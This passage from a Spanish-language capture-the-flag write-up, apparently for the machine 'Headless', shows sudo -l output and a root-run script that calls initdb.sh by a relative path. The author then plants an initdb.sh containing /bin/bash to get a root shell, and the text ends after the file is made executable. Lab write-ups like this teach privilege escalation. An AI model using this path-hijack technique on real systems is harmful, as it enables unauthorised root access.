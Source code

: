 ```shell
dvir@headless:~/app$ sudo -l

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

El sistema me dice que puedo ejecutar comandos en /usr/bin/syscheck. Analizo en archivo. Parece ser un fichero que monitorea el sistema y muestra información sobre él.

```shell
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Podemos ver como se está ejecutando un archivo llamado "initdb.sh" de forma relativa. 

Si creo un fichero con el mismo nombre y le añado "/bin/bash", cuando se ejecute la herramienta syscheck podre obtener una shell como root. 

Una vez lo he creado, le doy permisos de ejecución.

```shell
dvir@headless:~$ echo "/bin/bash" > initdb.sh
dvir@headless:~$ chmod +x initdb.sh 
```

